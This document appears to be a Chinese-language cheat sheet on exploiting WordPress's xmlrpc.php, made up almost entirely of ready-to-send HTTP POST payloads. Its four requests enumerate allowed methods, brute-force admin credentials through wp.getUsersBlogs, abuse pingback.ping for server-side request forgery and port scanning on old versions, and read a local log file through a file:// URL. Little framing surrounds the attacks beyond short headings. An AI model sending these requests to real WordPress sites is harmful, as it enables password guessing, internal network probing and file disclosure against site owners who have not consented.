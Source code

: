 # xmlrpc.php 漏洞利用

### 0x01 查看系统允许的方法

```bash
POST /wordpress/xmlrpc.php HTTP/1.1
Host: www.example.com
Content-Length: 99

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

### 0x02 账号爆破

无限提交

```bash
POST /wordpress/xmlrpc.php HTTP/1.1
Host: www.example.com
Content-Length: 99

<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>password</value></param>
</params>
</methodCall>
```

### 0x03 SSRF

WordPress 版本 <3.5.1, 通过 Pingback 可以实现的服务器端请求伪造 (Server-side request forgery，SSRF) 和远程端口扫描。

```bash
POST /wordpress/xmlrpc.php HTTP/1.1
Host: www.example.com
Content-Length: 99

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://x.x.x.x:8000测试地址</string></value>
</param><param><value><string>https://localhost/?p=6461wordpress上存在的一url</string>
</value></param></params>
</methodCall>
```

### 0x04 读取文件

```bash
POST /wordpress/xmlrpc.php HTTP/1.1
Host: www.example.com
Content-Length: 99

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>file:///var/log/apache2/access_log</string></value>
</param><param><value><string>http://localhost/?p=6461</string>
</value></param></params>
</methodCall>
```
